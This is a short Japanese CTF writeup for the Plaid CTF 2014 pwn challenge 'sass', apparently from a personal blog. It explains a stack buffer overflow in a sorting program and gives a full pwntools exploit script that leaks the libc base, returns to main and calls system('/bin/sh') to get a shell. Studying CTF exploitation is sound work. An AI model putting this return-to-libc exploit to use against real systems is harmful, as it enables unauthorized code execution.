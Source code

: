 ```yaml
---
layout: post
alias: "/blog/2016/09/15/plaidctf-2014-sass/"
date: "2016-09-15T15:43:57+09:00"
title: "Plaid CTF 2014: sass"
tags: [ "competitive", "writeup", "pwn", "plaidctf" ]
"target_url": [ "https://github.com/ctfs/write-ups-2014/tree/master/plaid-ctf-2014/sass" ]
---
```


手元で解いた。
練習用に鯖を建てていたのだが、こちらに投げたら通らず。
stack上の値を眺めながらいい感じにするだけの問題であるので、実質解き直しかつそこまでするほどの楽しさはなく、鯖は放棄した。

## solution

入力された数値($10$や$16$進の諸々の形式をいい感じに読んでくれる)をstackのbufferに積み(正確には$0$で初期化してあるところに足し引き)、(符号付きで)sortし、出力するプログラム。
bofがあって、入力した数値でreturn addressを触れる。
libcのbase addressを得つつreturn-to-mainしてから再度bofでsystemを呼ぶ。
PIEではあるが、`get_pc_thunk.bx`の跡が残っているのでこれに差分を与えてmainのaddressを作ればよい。

``` c++
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
context.log_level = 'debug'

elf = ELF('./sass')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
p = process('./sass')

p.recvuntil('Enter your numbers:\n')
for i in range(32):
    p.sendline(str(0x80000000))
p.sendline(str(0))
p.sendline(str(- 0x250))
p.sendline(str(- 11)) # main
p.sendline(str(0x7fffffff + 2))
p.sendline(str(0))
p.sendline(str(0))
p.sendline(str(0x7fffffff + 2))
p.sendline(str(0)) # __libc_start_main
p.sendline(str(0x7fffffff + 3)) # argc
p.sendline(str(0)) # argv
p.sendline(str(0)) # envp
p.sendline()
p.recvuntil('OK, here you are:\n')
for i in range(32):
    assert int(p.recvline(), 16) == 0x80000000
libc_base = int(p.recvline(), 16) - (libc.symbols['__libc_start_main'] + 247)
log.info('libc base: %#x', libc_base)
libc_static = int(p.recvline(), 16)
assert int(p.recvline(), 16) == libc_static
assert int(p.recvline(), 16) == libc_static + 0x3dc
log.info('libc static: %#x', libc_static)
argv = int(p.recvline(), 16)
log.info('argv: %#x', argv)
envp = int(p.recvline(), 16)
log.info('envp: %#x', envp)
program_base = int(p.recvline(), 16)
log.info('program base: %#x', program_base)
assert int(p.recvline(), 16) == program_base + elf.symbols['main']
for i in range(3):
    assert int(p.recvline(), 16) == 0x7fffffff

p.recvuntil('Enter your numbers:\n')
for i in range(32):
    p.sendline(str(0x80000000))
p.sendline(str(- 0x80000000 - libc_static - 0x3dc))
p.sendline(str(- 0x80000000 - argv))
p.sendline(str(- 0x80000000 - envp))
p.sendline(str(- 0x80000000 - program_base))
p.sendline(str((0x7fffffff - libc_base - libc.symbols['system']      ) % 0x100000000))
p.sendline(str((0x7fffffff - libc_base - libc.symbols['system'] - 1  ) % 0x100000000))
p.sendline(str((0x7fffffff - libc_base - next(libc.search('/bin/sh'))) % 0x100000000))
p.sendline()
p.recvuntil('OK, here you are:\n')

time.sleep(1)
p.sendline('id')
p.interactive()
```
